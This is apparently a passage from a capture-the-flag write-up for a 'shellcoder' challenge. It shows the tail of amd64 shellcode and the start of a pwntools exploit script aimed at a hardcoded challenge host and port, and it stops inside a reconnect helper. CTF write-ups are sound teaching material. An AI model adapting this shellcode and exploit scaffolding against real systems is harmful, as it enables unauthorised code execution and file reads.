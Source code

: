 ```python
          syscall

          mov rdi, 0x1
          mov rax, rdi
          syscall

          jmp r8
''', arch='amd64')
```

And the final exploit (featuring backtracking, sanitization, open-read-write shellcode for the final path and fixing crashing connections):

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import string
import time

exe = context.binary = ELF('shellcoder')

host = args.HOST or '139.180.215.222'
port = int(args.PORT or 20002)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
vmmap
'''.format(**locals())

# -- Exploit goes here --

def clean_read(folder, io):
    try:
        lines = io.recv()
    except EOFError:
        log.info('Starting new sessionin clean_read!')

        io.close()
        io = start()
        print(io.recv())

        io.send(read)
        io.send(getdents)
```